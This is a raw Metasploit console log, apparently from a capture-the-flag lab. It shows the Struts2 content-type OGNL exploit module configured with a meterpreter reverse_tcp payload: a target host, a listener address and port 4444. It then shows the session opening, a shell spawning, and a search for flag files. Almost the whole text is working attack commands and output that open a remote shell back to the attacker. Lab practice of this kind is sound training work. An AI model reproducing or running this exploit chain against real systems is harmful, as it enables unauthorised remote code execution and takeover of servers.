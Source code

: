 ```
PAYLOAD => linux/x86/meterpreter/reverse_tcp

msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.191.224     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /showcase.action  yes       The path to a struts application action
   VHOST                        no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.106.222     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(multi/http/struts2_content_type_ognl) > run

[*] Started reverse TCP handler on 10.8.106.222:4444
[*] Sending stage (980808 bytes) to 10.10.191.224
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.191.224:33544) at 2020-10-01 21:45:39 +0200

meterpreter > shell
Process 56 created.
Channel 1 created.

find / 2>>/dev/null | grep -i "flag"
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.20.2/bits/waitflags.ph
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
/flag-dir
```

